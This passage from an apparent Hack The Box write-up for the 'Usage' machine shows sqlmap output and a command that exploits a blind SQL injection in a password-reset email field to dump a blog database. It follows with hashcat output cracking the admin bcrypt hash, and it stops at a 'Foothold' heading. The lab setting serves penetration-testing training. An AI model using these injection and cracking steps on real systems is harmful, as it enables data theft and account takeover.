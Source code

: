 ```
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog

[10:29:25] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 152 times
[10:29:25] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/usage.htb'

[*] ending @ 10:29:25 /2025-04-27/

```

Now we can dump the `usage_blog` database

```bash
 sqlmap -r reset.req -p email --level 5 --risk 3 --technique=B --batch --dump usage_blog
```

After dumping the database we find a table name admin_users with a user `admin` and password `whatever1` (after cracking it using hashcat)

```bash
2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2:whatever1
                                                        
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: usage_hashes
Time.Started.....: Sun Apr 27 13:29:18 2025 (19 secs)
Time.Estimated...: Sun Apr 27 13:29:37 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       85 H/s (5.28ms) @ Accel:6 Loops:16 Thr:1 Vec:1
Recovered........: 3/3 (100.00%) Digests (total), 1/3 (33.33%) Digests (new), 3/3 (100.00%) Salts
Progress.........: 4788/43033155 (0.01%)
Rejected.........: 0/4788 (0.00%)
Restore.Point....: 1584/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1008-1024
Candidate.Engine.: Device Generator
Candidates.#1....: alexis1 -> serena
Hardware.Mon.#1..: Util: 74%

Started: Sun Apr 27 13:29:14 2025
Stopped: Sun Apr 27 13:29:39 2025

```

Login in the admin page we can see that the site uses `laravel-admin 1.18.0`

# Foothold
